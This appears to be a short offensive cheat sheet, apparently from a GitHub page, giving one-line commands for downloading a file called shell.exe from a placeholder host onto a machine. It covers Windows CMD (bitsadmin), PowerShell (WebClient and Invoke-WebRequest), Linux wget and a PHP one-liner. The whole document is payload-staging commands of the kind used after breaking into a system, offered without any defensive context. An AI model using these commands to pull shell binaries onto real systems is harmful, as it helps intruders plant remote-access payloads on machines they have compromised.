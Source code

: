 # Windows

### CMD
```cmd
bitsadmin /transfer shell /priority high http://example.com/shell.exe c:\temp\shell.exe
```

### PowerShell
```powershell
powershell -command "& {(New-Object Net.WebClient).DownloadFile('http://example.com/shell.exe','c:\temp\shell.exe')}"
```
```powershell
Invoke-WebRequest http://example.com/shell.exe -OutFile shell.exe -UseBasicParsing
```

# Linux

### Bash
```bash
wget http://example.com/shell.exe
```

# General

### PHP
```php
php -e 'file_put_contents("shell.exe",file_get_contents("http://example.com/shell.exe"));'
```
